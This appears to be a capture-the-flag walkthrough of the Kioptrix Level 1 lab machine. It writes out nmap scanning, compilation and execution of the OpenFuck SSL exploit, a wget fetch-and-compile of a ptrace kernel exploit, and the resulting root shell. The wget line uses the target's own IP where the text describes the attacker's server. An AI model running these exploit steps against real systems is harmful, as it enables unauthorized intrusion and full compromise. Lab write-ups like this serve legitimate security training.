






# Kioptrix: Level 1 (#1) - Capture the Flag Walkthrough

A complete walkthrough of the Kioptrix Level 1 CTF challenge, demonstrating remote code execution via a legacy OpenSSL vulnerability and local privilege escalation using a kernel exploit.

## 🎯 Target Overview
* **OS:** Red-Hat Linux 7.2 (Kernel 2.4.7-10)
* **IP Address:** 192.168.0.23
* **Difficulty:** Beginner

---

## 🔍 Stage 1: Enumeration & Scanning
An initial Nmap scan was performed to identify open ports and services:

```bash
nmap -sV -A 192.168.0.23
```

### Key Findings:
* **Port 443/tcp:** Apache 1.3.20 / mod_ssl 2.8.4 / OpenSSL 0.9.6b

The version of OpenSSL in use is extremely old and known to be vulnerable to a heap overflow protocol flaw.

<!-- 🖼️ PLACE FIRST IMAGE HERE -->


*Figure 1: Initial network enumeration showing outdated Apache and OpenSSL versions.*

---

## 🚀 Stage 2: Exploitation (Initial Access)
The vulnerability identified corresponds to **CVE-2002-0656** (vulnerability handling SSLv2 client keys). The **OpenFuck** exploit source code was used to target this service.

### 🛠️ Compilation Hurdles:
Compiling legacy code on modern Kali Linux threw deprecated library warnings. However, compilation completed successfully using:

```bash
gcc -o OpenFuck OpenFuck.c -lcrypto
```

### 💥 Execution:
The initial attempt using architecture offset `0x6a` failed and crashed the connection. After reviewing the available targets inside the exploit, the second RedHat 7.2 profile (**`0x6b`**) was chosen:

```bash
./OpenFuck 0x6b 192.168.0.23 443 -c 40
```

**Result:** Successfully established a low-privilege interactive shell as the `apache` user.

```bash
bash-2.05\$ whoami
apache
```

---

## 📈 Stage 3: Local Privilege Escalation (Root)
With low-privilege access established, the system environment was profiled:

```bash
bash-2.05\$ uname -a
Linux kioptrix.level1 2.4.7-10 #1 Thu Sep 6 16:46:36 EDT 2001 i686 unknown
```

The system was found running Linux Kernel **2.4.7-10**, which is vulnerable to a ptrace race condition local privilege escalation flaw (**CVE-2003-0127**).

**Local Kali Location:** `/usr/share/exploitdb/exploits/linux/local/3.c`

### 📂 File Transfer & Execution:
Because the target lacked modern SSL capabilities to download directly from external sites like Pastebin, a local Python HTTP server was launched on the attacker's Kali machine to transfer the payload.

```bash
# On Target Shell
cd /tmp
wget http://192.168.0.23/ptrace.c
gcc -o ptrace ptrace.c
./ptrace
```

### ⚡ Triggering the Root Hook:
The exploit required an SUID execution to trigger the privilege hook. Running a simple `ping` forced the kernel shift:

```bash
ping localhost -c 2
```

**Result:** Privilege escalation successful!

```bash
bash-2.05\$ whoami
root
```

<!-- 🖼️ PLACE SECOND IMAGE HERE -->



*Figure 2: Elevating access from the apache user to a full root shell using the ptrace exploit.*

---

## 🏁 Flag Capture
The final confirmation flag was uncovered by checking the root account's local mail spool (`/var/spool/mail/root`):

> **"If you are reading this, you got root. Congratulations. Level 2 won't be as easy..."**

<!-- 🖼️ PLACE THIRD IMAGE HERE -->

*Figure 3: Viewing the final congratulatory message in the root mailbox.*

## 📚 Detailed Exploit Breakdowns
For a deep dive into how each exploit works and their source paths:
* [OpenFuck Exploit Details](https://github.com/redeemer743/Kioptrix-Level-1-Capture-the-Flag-Writeup/blob/main/OpenFuck_Notes.md)
* [Ptrace-Kmod Exploit Details](https://github.com/redeemer743/Kioptrix-Level-1-Capture-the-Flag-Writeup/blob/main/Ptrace_Notes.md)


🎉 **Machine 100% Compromised.**

